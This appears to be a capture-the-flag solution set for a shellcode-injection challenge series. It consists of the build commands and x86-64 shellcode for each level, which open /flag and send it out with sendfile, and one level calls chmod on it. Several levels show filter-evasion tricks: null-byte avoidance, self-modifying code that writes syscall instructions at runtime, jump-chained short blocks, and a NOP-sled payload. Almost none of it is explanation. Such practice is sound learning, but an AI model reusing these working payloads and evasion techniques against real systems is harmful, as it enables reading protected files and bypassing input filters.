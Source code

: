 gcc -nostdlib -static shellcode.s -o shellcode-elf
objcopy --dump-section .text=shellcode-raw shellcode-elf

.level1
asm of sendline(1,open("/flag",0),0,1000)
//open(flag)
mov rbx,0x00000067616c662f
push rbx
mov rax,2
mov rdi,rsp
mov rsi,0
syscall

mov rdi,1
mov rsi,rax
mov rdx,0
mov r10,1000
mov rax,40
syscall

mov rax,60
syscall

.level3
//sendline(1,open("/flag",0),0,1000)
push 0x616c662f
mov BYTE PTR [rsp+4],0x67
xor rax,rax
inc rax
inc rax
mov rdi,rsp
xor rsi,rsi
syscall
xor rdi,rdi
inc rdi
mov rsi,rax
xor rdx,rdx
push 60
pop r10
push 40
pop rax
syscall

.level4
//
push 0x616c662f
mov BYTE PTR [rsp+4],0x67
mov eax,2
push rsp
pop rdi
xor esi,esi
syscall

mov edi,1
push rax
pop rsi
xor edx,edx
mov r10,1000
push 40
pop rax
syscall

.level5
//
xor rax,rax
A:
nop
nop
cmp rax,3
jz B
jg C
mov rbx,0x00000067616c662f
push rbx
add rax,0x500
add rax,0xf
mov rbx,0x237f3003
mov WORD PTR [rbx],ax
mov rax,2
mov rdi,rsp
mov rsi,0
jmp A
B:
mov rdi,1
mov rsi,rax
mov rdx,0
mov r10,1000
mov rax,40
jmp A
C:
nop

.level6
//
shellcode='''
xor rax,rax
A:
nop
nop
cmp rax,3
jz B
jg C
mov rbx,0x00000067616c662f
push rbx
add rax,0x500
add rax,0xf
mov rbx,0x13cb7012
mov WORD PTR [rbx],ax
mov rax,2
mov rdi,rsp
mov rsi,0
jmp A
B:
mov rdi,1
mov rsi,rax
mov rdx,0
mov r10,1000
mov rax,40
jmp A
C:
nop
'''
payload = asm(shellcode, arch='amd64').rjust(0x1070,b'\x90')

.level9
//
push 0x616c662f
jmp A
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
A:
mov BYTE PTR [rsp+4],0x67
jmp B
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
B:
inc eax
inc eax
push rsp
pop rdi
xor esi,esi
jmp C
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
C:
syscall

mov edi,1
jmp D
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
D:
push rax
pop rsi
xor edx,edx
xor r10,r10
jmp E
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
nop
E:
add r10,100
push 40
pop rax
syscall

.level12
//
push 0x616c662f
mov BYTE PTR [rsp+4],0x67
mov rdi,rsp
xor esi,esi
mov esi,0x123407ff
push 90
pop rax
syscall

